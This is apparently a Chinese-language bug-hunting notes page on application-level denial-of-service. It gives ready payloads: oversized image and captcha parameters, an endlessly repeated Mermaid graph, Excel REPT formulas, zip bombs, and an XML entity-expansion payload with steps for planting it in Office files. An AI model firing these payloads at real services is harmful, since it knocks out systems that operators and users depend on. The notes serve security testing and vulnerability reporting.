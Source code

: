 ## 时间查询DoS

原本的查询范围是2020年1月1日到2024年1月1日,

可以抓包修改为1000年1月1日到9000年1月1日,造成拒DoS.

## Image DoS

图片参数大小可控,导致DoS

```
图片 API 为类似的 URL 时
http://example.com/demo.php/?img=coca-cola.jpg
可修改参数值 (建议先使用一个较小的参数测试，避免服务器崩溃) 查看响应字节和时间是否变化
http://example.com/demo.php/?img=coca-cola.jpg&width=100&height=100
有时需要自己构造参数
&l=00
&w=100&h=100
&w=100&h=100&l=100
&length=100
&width=100&height=100
&width=100&height=100&length=100
(length往往代表图片验证码生成的字符数量)
&size=100
&margin=100
```

---

Refrences

- [新类型【漏洞】验证码大小可控导致的拒绝服务攻击漏洞](https://zhuanlan.zhihu.com/p/41800341)

## Markdown DoS

当使用 Markdown 渲染大量数据的 Mermaid 图表时会导致 DoS

````
```mermaid
graph LR
A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;B-->A;A-->B;

......

```
````

```mermaid
graph TD
A-->B-->A-->B-->A-->B-->A-->B-->A-->B-->A-->B-->A-->B-->A-->B-->A-->B
```

---

- [Uncontrolled Resource Consumption in any Markdown field using Mermaid](https://hackerone.com/reports/670572)

## 文件解析 DoS

通过使目标解析文件造成 DoS.

### 1. Excel

在 Excel 中有一个函数 `=REPT("1",99)` , 表示在一个单元格中写入 99 个 `1` ;

若是一个特别大的值, 如:  `=REPT("1",9999)` ,那么在 Office Excel 则不会解析, 而是返回一个值 `#VALUE!` ;

但是在线文档可能将文字全部解析并造成 DoS;

如果目标网站对 `=REPT("1",99)` 数量有限制, 可尝试引用单元格绕过:

```
=REPT("1",9)
=REPT(A1,9)
=REPT(A2,9)
=REPT(A3,9)
```

### 2. Zip

在线解压高压缩率的 zip 文件会造成 DoS, 若目标无法解压这个文件则不存在 DoS.

访问 [A better zip bomb](https://www.bamsoftware.com/hacks/zipbomb/) 得到 zip 文件.

### 3. XML

Word, Excel, PowerPoint 文件解压后存在 XML 文件, 压缩后可回复文档.

可利用 XML 的内部实体的循环引用造成 DoS

```
<!DOCTYPE w:t [
	<!ENTITY PoC "test">
	<!ENTITY PoC2 "&PoC;&PoC;&PoC;&PoC;&PoC;&PoC;">
	<!ENTITY PoC3 "&PoC2;&PoC2;&PoC2;&PoC2;&PoC2;&PoC2;">
]>
```

1. 在文档中写入 `Hello, World!` , 方便定位;

2. 使用解压工具打开文档;

3. 找到存在 `Hello, World!` 的 XML 文件;

   ```
   C:\Users\sec\Desktop\Microsoft Word 文档\word\document.xml
   C:\Users\sec\Desktop\Microsoft Excel 工作表\xl\sharedStrings.xml
   C:\Users\sec\Desktop\Microsoft PowerPoint 演示文稿\ppt\slides\slide1.xml
   ```

4. 在 XML 文件中添加内部实体引用;

   ```
   <?xml version="1.0" encoding="UTF-8" standalone="yes"?>
   <!DOCTYPE w:t [
   	<!ENTITY PoC "test">
   	<!ENTITY PoC2 "&PoC;&PoC;&PoC;&PoC;&PoC;&PoC;">
   	<!ENTITY PoC3 "&PoC2;&PoC2;&PoC2;&PoC2;&PoC2;&PoC2;">
   ]>
   <w:document>
   	<w:t>Hello, World!&PoC3;</w:t>
   </w:document>
   ```

5. 保存后上传到在线文档解析则可能造成 DoS.

---

Refrences

- [企业src中dos漏洞的挖掘【小火炬公开课】](https://www.bilibili.com/video/BV1xYweeKELq/?spm_id_from=333.1387.favlist.content.click&vd_source=2dcc7806c9580af60063ca1edb63852d)
- [A better zip bomb](https://www.bamsoftware.com/hacks/zipbomb/)
- [XML 拒绝服务攻击和防御](https://learn.microsoft.com/zh-cn/archive/msdn-magazine/2009/november/xml-denial-of-service-attacks-and-defenses)

---

Refrences

- [dos攻击漏洞思路小结](https://xz.aliyun.com/news/14695)